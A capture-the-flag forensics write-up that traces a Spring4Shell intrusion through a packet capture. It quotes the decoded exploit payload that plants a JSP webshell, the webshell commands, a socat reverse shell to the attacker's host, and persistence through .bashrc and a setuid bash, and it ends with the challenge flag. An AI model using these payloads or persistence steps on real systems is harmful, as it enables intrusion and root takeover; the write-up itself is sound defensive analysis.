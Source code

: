 ## CHALLENGE INFO
> "I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong."
>  Now there is an internal breach in the `Spooky Network` and you need to find out what happened.
>  Analyze the the network traffic and find how the scary ghosts got in and what they did.

---
We are provided with a zip file `forensics_wrong_spooky_season.zip` containing a pcap file called `capture.pcap`.
When opening the provided pcap file in wireshark we see a bunch of internet traffic.
Most of the traffic is TCP and a small portion is HTTP.
After reading the challenge description, it seems like their website was compromised somehow and we analyst need to figure out how.
Further down towards the bottom of the pcap we observe malicious HTTP requests originating from the IP 192.168.1.180 towards the website.
This knowledge will then be used to backtrack the initial breach from this IP.
The breach is displayed in cronological order even tho the task can be solved without this information being needed.

We start by filtering for http requests in wireshark since we guess that the website was the origin of the initial breach.
This is done by applying the `http.request` filter in wiresharks filter bar.
Now we can quickly follow each http request stream and see if anything seems off in them.
There are some http post requests being made to `POST /spookhouse/home/` this seems weird.
When investigating one of the post requests being made at `2022-10-10 17:29:50` we observe a large javascript string
```HTTP
POST /spookhouse/home/ HTTP/1.1
Host: 192.168.1.166:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 709

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=e4d1c32a56ca15b3&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=HTTP/1.1 200

Content-Type: text/html;charset=UTF-8
Content-Language: en
Transfer-Encoding: chunked
Date: Mon, 10 Oct 2022 17:29:49 GMT
Keep-Alive: timeout=20
Connection: keep-alive
```

When googling some of the code, we get many hits like the one below explaining that this is an indicator of exploitation of the CVE  `Spring4Shell - CVE-2022-22965`
https://blog-internal.pentest-tools.com/detect-exploit-spring4shell-cve-2022-22965/
We then copy this code into cyberchef and URL decode it and then put that result into a javascript beautifier, so that it is more human readable.
This will result in the below output.
```JS
class.module.classLoader.resources.context.parent.pipeline.first.pattern = % {
    prefix
}
i java.io.InputStream in = % {
    c
}
i.getRuntime().exec(request.getParameter("cmd")).getInputStream();
int a = -1;
byte[] b = new byte[2048];
while ((a = in.read(b)) != -1) {
    out.println(new String(b));
} % {
    suffix
}
i & class.module.classLoader.resources.context.parent.pipeline.first.suffix = .jsp & class.module.classLoader.resources.context.parent.pipeline.first.directory = webapps / ROOT & class.module.classLoader.resources.context.parent.pipeline.first.prefix = e4d1c32a56ca15b3 & class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat = HTTP / 1.1 200
```

We can now clearly see that this is a malicious webshell being written to the website.
The webshell named `e4d1c32a56ca15b3.jsp` is written to the websites web-root directory.
The webshell takes a parameter cmd and executes the command that is given to it on the web server.
The attacker is then seen using this webshell the first time at `2022-10-10 17:30:11`	running the `whoami` command
The attacker then gets a response that he is running as the root user.
```HTTP
GET /e4d1c32a56ca15b3.jsp?cmd=whoami HTTP/1.1
Host: 192.168.1.166:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive

  
HTTP/1.1 200

Set-Cookie: JSESSIONID=98B9116B2BCBC803BA9315A7F9AE50FF; Path=/; HttpOnly
Content-Type: text/html;charset=ISO-8859-1
Content-Length: 2054
Date: Mon, 10 Oct 2022 17:30:11 GMT
Keep-Alive: timeout=20
Connection: keep-alive


root
```

At `2022-10-10 17:30:17` the attacker und the `id` command.
```HTTP
GET /e4d1c32a56ca15b3.jsp?cmd=id HTTP/1.1
Host: 192.168.1.166:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive

  
HTTP/1.1 200

Set-Cookie: JSESSIONID=8773EC8B72D6C4ADCB5731FCB74D67F9; Path=/; HttpOnly
Content-Type: text/html;charset=ISO-8859-1
Content-Length: 2054
Date: Mon, 10 Oct 2022 17:30:16 GMT
Keep-Alive: timeout=20
Connection: keep-alive

  
uid=0(root) gid=0(root) groups=0(root)
```

At `2022-10-10 17:30:28` the attacker is installing the socat tool.
```HTTP
GET /e4d1c32a56ca15b3.jsp?cmd=apt%20-y%20install%20socat HTTP/1.1
Host: 192.168.1.166:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

At `2022-10-10 17:30:43` the attacker utilizes the newly installed socat program to create a reverse shell on the web server `192.168.1.180:1337` catching it on his local port 1337.
```HTTP
GET /e4d1c32a56ca15b3.jsp?cmd=socat%20TCP:192.168.1.180:1337%20EXEC:bash HTTP/1.1
Host: 192.168.1.166:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

After the attacker establishes a reverse shell we then start seeing TCP traffic at `2022-10-10 17:30:44` between the web server and the attackers IP `192.168.1.180` and Port `1337`, confirming that the reverse shell is now running.
![alt text](WrongSpookySeason.png)

Since the reverse shell is running over TCP, we can just follow the TCP stream in Wireshark and observe the attackers activity in clear text.
```Bash
id
uid=0(root) gid=0(root) groups=0(root)

groups
root

uname -r
5.18.0-kali7-amd64

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemo:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin

find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh

echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash

ls -lha
total 20K
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 .
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 ..
-rwxrwx--- 1 root root 1.8K Oct 8 00:04 pom.xml
drwxr-xr-x 3 root root 4.0K Oct 10 17:27 src
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 target
```

It looks like the attacker straight after gaining access to the machine was performing come basic reconnesaince.
The attackers final command looks not related to reconnesaince of the web server. 
They are first adding a reverse shell persistence command socat command to the `/root/.bashrc` file and then echoing a long, reversed, base64 encoded string to `/dev/null` and then finally the attacker set the suid bit on `/bin/bash`. Which is another persistence mechanism that would enable any user to execute commands from `bash` as the files creator which is the `root` user.
So if the user got locked out of the machine as root but not another on the server they can still execute commands as root via the `bash` file.

Now if you have played a lot of HTB you will immediatly notice the `SFRC` beginning of the bsae64 encoded string and know that this is the flag base64 encoded and the string reversed.
So in order to undo this, we can simply run the following command in bash to get the flag.
```Bash
┌──(kali㉿kali)-[~]
└─$ echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev | base64 -d 
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```
